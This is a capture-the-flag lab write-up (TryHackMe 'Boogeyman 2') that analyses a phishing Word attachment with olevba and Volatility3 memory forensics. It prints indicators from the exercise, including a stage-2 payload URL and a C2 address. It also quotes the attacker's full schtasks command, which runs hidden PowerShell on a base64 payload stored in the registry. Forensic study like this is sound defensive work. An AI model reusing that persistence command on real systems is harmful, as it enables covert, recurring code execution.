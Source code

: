 # Boogeyman 2 


**Start of CTF**

**==BEGIN==**

## **(Independent Analysis)**

This is a TryHackMe Lab CTF exercise.  
*Note: All content is fictional and for educational purposes only.*

- **Phishing email sender:** `[REDACTED_EMAIL]`
- **Victim's email:** `[REDACTED_EMAIL]`

**Malicious file attachment:**  
- Original name: `Resume_WesleyTaylor.doc`  
- Renamed as: `Malware.doc`  
- File hash: `52c4384a0b9e248b95804352ebec6c5b`

The malware appears to operate in multiple stages; at least a stage 2 was identified.

**Analysis steps:**

- Used the `olevba` tool for further inspection:  
  ```shell
  olevba Malware.doc
  ```
- Discovered stage 2 payload download URL:  
  `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png`
- The Windows process executing the stage 2 payload: `wscript.exe`
- Stage 2 payload path: `C:\ProgramData\update.js`

**Forensics (Volatility3):**

Volatility3 commands used:
```shell
vol -f WKSTN-2961.raw <plugin>
vol -f WKSTN-2961.raw -h
```

Plugins of choice:
- `windows.pstree.PsTree`
- `windows.psscan.PsScan`
- `windows.pslist.PsList`
- `windows.strings.Strings`

Initial attempts:
```shell
vol -f WKSTN-2961.raw windows.pstree.PsTree
vol -f WKSTN-2961.raw windows.netscan.NetScan
```

- Stage 2 PID: **4260**
- Parent process of `wscript.exe`: `WINWORD.EXE` (PID: 1124)
- `windows.strings.Strings` plugin was not effective here

*Note: For questions 5 and 10, the answer was autocorrected from `.png` to `.exe`. Verified using the `filescan` plugin and extraction steps below.*

**(Independent Analysis End)**

---

## **(Research started)**

Used:
```shell
vol -f WKSTN-2961.raw windows.filescan | grep -i update
```
- Found: `update[1].exe`

Dumped the file:
```shell
vol -f WKSTN-2961.raw windows.dumpfiles --virtaddr 0xe58f8928f8b0
```
- Checked filetype and contents:
  ```
  file 'file.0xe58f8928f8b0.0xe58f838dd360.DataSectionObject.update[1].exe.dat'
  cat 'file.0xe58f8928f8b0.0xe58f838dd360.DataSectionObject.update[1].exe.dat'
  ```
- No major findings at this stage

Further research:
```shell
strings WKSTN-2961.raw | grep boogeymanisback.lol
```
- Located the update.exe webserver URL:  
  `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe`

Used `netscan` plugin for C2 clues:
- The threat actor favors port **8080**.
- PID of malicious process: **6216**
- Confirmed: `updater.exe` is the malicious process

Malicious file path:
- `C:\Windows\Tasks\Updater.exe`

C2 IP & port:
- `128.199.95.189:8080`

Malicious .doc attachment email path:
- `\Users\[REDACTED_USER]\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc`

**(Research Ended)**

---

## **Independent Analysis Redux**

PID: **6216**  
Confirmed as correct.  
`updater.exe` is the malicious process.

Full file path: `C:\Windows\Tasks\Updater.exe`

C2 IP Address & port: `128.199.95.189:8080`

Malicious .doc attachment path:  
`\Users\[REDACTED_USER]\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc`


Last question required more research regarding scheduled processes.

**(Independent Analysis Ends)**

---

## **Rev up those fryers because we're (Researching again)**

- Searched for "schedule" in file paths:
  ```shell
  vol -f WKSTN-2961.raw windows.filescan | grep -i "schedule"
  ```
- Windows uses the **Task Scheduler**:
  - Path: `\Windows\System32\winevt\Logs\Microsoft-Windows-TaskScheduler`

Event log IDs 106 (task creation) and 140 (update) are potentially relevant.

No direct plugin for event IDs found.

Walkthrough research:
```shell
strings WKSTN-2961.raw | grep schtasks
```
- Found the persistence mechanism:

**Full Command:**
```shell
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\""
```
Persistence established via Task Scheduler, storing a listener in:
  - `HKCU:\Software\Microsoft\Windows\CurrentVersion\debug`
  - Updater scheduled daily at 09:00.

**(End Research)**

==FINISH==

```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣤⣔⠒⠀⠉⠉⠢⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣀⣀⠠⠄⠒⠘⢿⣿⣿⣿⣿⣆⠀⠀⠀⠀⠱⡀⠀⠀⠀⠀⠀⠀
⢺⣦⢻⣿⣿⣿⣿⣄⠀⠀⠀⠀⠈⢿⡿⠿⠛⠛⠐⣶⣿⣿⣿⣧⡀⠀⠀⠀⠀⠀
⠈⢿⣧⢻⣿⣿⣿⣿⣆⣀⣠⣴⣶⣿⡄⠀⠀⠀⠀⠘⣿⣿⣿⣿⣧⠀⠀⠀⠀⠀
⠀⠀⢿⣧⢋⠉⠀⠀⠀⠹⣿⣿⣿⣿⣿⡆⣀⣤⣤⣶⣮⠀⠀⠀⠀⠣⠀⠀⠀⠀
⠀⠀⠈⢿⣧⢂⠀⠀⠀⠀⢘⠟⠛⠉⠁⠀⠹⣿⣿⣿⣿⣷⡀⠀⠀⠀⢣⠀⠀⠀
⠀⠀⠀⠈⢿⣧⢲⣶⣾⣿⣿⣧⡀⠀⠀⠀⢀⣹⠛⠋⠉⠉⠉⢿⣿⣿⣿⣧⠀⠀
⠀⠀⠀⠀⠀⢿⣧⢻⣿⣿⣿⡿⠷⢤⣶⣿⣿⣿⣧⡀⠀⠀⠀⠈⢻⣿⣿⣿⣧⠀
⠀⠀⠀⠀⠀⠈⢿⣧⢛⠉⠁⠀⠀⠀⢻⣿⣿⣿⡿⠗⠒⠒⠈⠉⠉⠉⠙⡉⠛⡃
⠀⠀⠀⠀⠀⠀⠈⢿⣯⢂⠀⠀⠀⡀⠤⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⢿⣯⠐⠈⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
```
